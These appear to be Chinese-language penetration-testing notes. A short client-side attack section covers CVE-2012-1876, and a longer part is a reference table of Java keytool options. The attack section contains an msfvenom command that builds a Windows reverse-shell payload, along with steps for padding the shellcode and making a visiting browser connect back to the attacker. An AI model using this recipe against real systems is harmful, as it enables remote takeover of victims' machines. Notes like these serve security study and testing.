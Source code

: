 

# 客户端攻击

## 示例: CVE-2012-1876

去 https://www.exploit-db.com/ 下载对应的exp

将bind shell替换成reverse shell:
msfvenom -p windows/shell_reverse_tcp lhost=your-ip lport=your-port -f js_le --platform windows -a x86 -e generic/none
发现生成的shell code长度为324个字节,小于原先exploit中的342个字节
用nop补足剩下的18个字节,即%u9090
然后当目标机访问exploit.html时,就会回连到我们的目标端口


## keytool

Keytool是一个Java数据证书的管理工具,这个工具一般在 JDK\jre\bin\security\目录下,所有的数字证书是以一条一条(采用别名区别)的形式存入证书库的中,证书库中的每个证书包含该条证书的私钥,公钥和对应的数字证书的信息

证书库中的一条证书可以导出数字证书文件,数字证书文件只包括主体信息和对应的公钥
Keytool将密钥(key)和证书(certificates)存在一个称为keystore的文件中

在keystore里,包含两种数据：
密钥实体(Key entity)— 密钥(secret key)又或者是私钥和配对公钥(采用非对称加密)
可信任的证书实体(trusted certificate entries)— 只包含公钥

|参数                           |说明
|-------------------------------|-----------------
|-genkeypair                    |创建一个新的密钥
|-keyalg                        |使用加密的算法,例:RSA(默认为"DSA")
|-alias　　　　　                |和keystore关联的别名,通常不区分大小写(默认为"mykey")
|-keypass                       |私有密钥的密码
|-keystore                      |指定密钥存储路径(默认为用户宿主目录中名为.keystore的文件)
|-storepass                     |存取密码,这里设置为changeit,这个密码提供系统从mykeystore文件中将信息取出
|-validity                      |该密钥的有效期,单位:天 (默认为90)
|-keysize                       |指定密钥长度(默认为1024)
|-list                          |显示密钥库中的证书信息
|-v                             |显示密钥库中的证书详细信息
|-delete                        |删除密钥库中某条目
|-import                        |将已签名数字证书导入密钥库
|-keypasswd                     |修改密钥库中指定条目口令
|-dname                         |密钥的Distinguished Names,表明了密钥的发行者身份
